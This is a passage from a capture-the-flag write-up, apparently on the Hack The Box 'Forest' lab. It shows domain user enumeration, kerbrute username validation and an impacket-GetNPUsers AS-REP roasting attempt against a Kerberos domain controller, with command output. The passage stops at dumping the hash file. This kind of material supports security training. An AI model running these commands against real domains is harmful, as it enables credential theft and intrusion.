 ```shell
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
- we can see that we have found a couple of valid domain users, I decided to exclude those mailbox accounts (which shows that Exchange is running) as I enumerated further, so:

```
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
```
- we can also verify that these are valid domain users using `kerbrute`

```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ kerbrute userenum --dc 10.10.10.161 -d htb.local userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/04/23 - Ronnie Flathers @ropnop

2023/06/04 19:12:27 >  Using KDC(s):
2023/06/04 19:12:27 >   10.10.10.161:88

2023/06/04 19:12:27 >  [+] VALID USERNAME:       Administrator@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       svc-alfresco@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       santi@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       mark@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       sebastien@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       andy@htb.local
2023/06/04 19:12:27 >  [+] VALID USERNAME:       lucinda@htb.local
2023/06/04 19:12:27 >  Done! Tested 10 usernames (7 valid) in 0.182 seconds
```
- Now we can use the impacket GetNPUsers script to discover AS-REPRoastable accounts, that is those account that don't have Kerberos Pre-authentication set
```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile users -format hashcat -outputfile hashes.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                                       
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ ls
forest  hashes.txt  userlist.txt  users
                                                                                                                                                                       
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ cat hashes.txt    
```